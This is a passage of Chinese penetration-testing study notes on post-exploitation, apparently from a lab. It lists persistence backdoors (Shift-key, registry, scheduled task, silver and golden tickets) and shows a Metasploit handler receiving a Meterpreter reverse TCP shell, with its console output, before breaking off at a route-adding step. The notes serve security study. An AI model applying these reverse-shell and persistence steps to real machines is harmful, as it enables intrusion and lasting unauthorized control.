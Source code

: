 > 还可以采用其它权限维持的方法，比如shift后门、注册表后门、计划后门、白银黄金票据等

![image-20220815002731903](./1.assets/image-20220815002731903.png)



## 横向探测

### 法一：MSF (*这里也写了ProxyChains)

> 可跳转至前面的 内网渗透，内容近似。



先拿一个msf shell

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.137  yes       The listen address (an interface may be specified)
   LPORT     9999             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.137:9999 
[*] Sending stage (200262 bytes) to 192.168.220.138
[*] Meterpreter session 3 opened (192.168.220.137:9999 -> 192.168.220.138:6500 ) at 2022-08-14 12:45:28 -0400

meterpreter > 
```

添加路由
